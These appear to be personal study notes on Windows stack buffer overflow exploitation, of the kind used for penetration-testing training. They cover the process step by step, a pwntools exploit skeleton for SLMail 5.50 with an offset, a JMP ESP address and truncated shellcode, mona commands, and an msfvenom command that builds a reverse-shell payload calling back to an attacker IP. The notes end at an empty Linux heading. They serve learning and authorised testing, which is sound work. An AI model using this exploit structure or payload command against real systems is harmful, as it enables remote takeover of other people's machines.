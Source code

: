 # Buffer Overflow Notes

## General Notes

### 1. Generic process
1. Determine vulnerability via fuzzing or code review
2. Demonstrate crash in debugger
3. Review crash details, see state of registers for potential placement of exploit code.  
- Example: Is the EAX register pointing to any location where the user can place input? (JMP EAX)
4. Determine offset
5. Determine bad characters
6. Find jmp/call instruction
7. Sanity check with interrupts
8. Construct shellcode
9. Exploit
  
### 2. Useful instructions:
| Instruction        | Use                                          |
| ------------------ |:--------------------------------------------:|
| JMP ESP (0xFFE4)   | Jump to the stack pointer to begin execution |
| CALL ESP (0xFFD4)  | Push ESP onto stack and then jump to execute |
| INT3 (0xCC)        | Halt execution                               |
  
Can check what instructions are using `msf-nasm-shell`.

### 3. Typical pwntools exploit structure
Taken from SLMail 5.50 exploit.
```python
io = start()

jmpesp = '\x8f\x35\x4a\x5f'

shellcode =  ""
shellcode += "\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33" # etc

exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```

### 4. Bad bytes array
```python
chars = ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
1. Start with full set
2. Check dump and see what's missing
3. Remove it and run again until entire string makes it through intact.

## Windows Exploitation
### Immunity Debugger and Mona.py
- Mona: https://github.com/corelan/mona

### Mona Commands
1. Search for libraries
```
!mona modules
```
2. Searching for JMP ESP
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
**Reminder: Any chosen address which goes into an exploit must not have bad characters**
  
### MSFVenom payloads
1. Reverse shell TCP (unstaged) example
```bash
msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 --var-name shellcode -b '\x00' -f python
```

## Linux Exploitation